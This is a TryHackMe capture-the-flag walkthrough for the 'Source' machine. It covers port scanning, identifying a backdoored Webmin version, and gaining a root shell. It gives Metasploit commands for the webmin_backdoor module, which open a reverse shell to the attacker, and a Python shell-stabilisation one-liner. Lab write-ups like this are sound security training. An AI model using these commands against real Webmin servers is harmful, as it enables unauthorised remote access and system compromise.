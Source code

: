 

## Welcome to this Walk-through Guide
Today, I will walk you through step by step on how to solve and pwn the Source machine on TryHackMe.

## Footprinting

So, we begin with an nmap scan and get the following result:

![1.png](1.png)

From the scan result, we can see that we have two ports open on our target machine: port 22 (SSH) and port 10000 (HTTP).

We have a web server running on a non-standard port, so let's head over to our web browser and check it out:

```
https://<IP>:10000
```

## Enumeration

Now, when we load up the address in our browser, we can see a login page for a software called ***webmin***. Essentially, I tried various default credentials to test for misconfiguration, but they didn't work.

![2.png](2.png)

My next approach was to check if a public exploit is available for the version of software running.

![3.png](3.png)

So, we can see that we have a backdoor in Webmin versions 1.890 through 1.920 which allows RCE.

## Exploitation

Now, let's load up our Metasploit console. We would be making use of the following exploit:

![4.png](4.png)

```
search webmin
use exploit/linux/http/webmin_backdoor 
```
```
show options
set RHOSTS <Target_IP>
set LHOST tun0
set SSL true
exploit
```

![5.png](5.png)

Now we have successfully gained a shell. Let's try to stabilize our current shell. First, we check if Python is available on the target machine using the following command:

```
which python
```

![7.png](7.png)

Cool! We have Python installed. Now, we run the following command to upgrade our shell:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

![8.png](8.png)

Running the ***whoami*** command says we are the root user so there is no need for Priv-esc, now let's navigate the file system to find the flag.

To get the user flag, we head over to the following directory: ***/home/dark***

![9.png](9.png)

For the root flag, you know what to do 😉. 

--- 

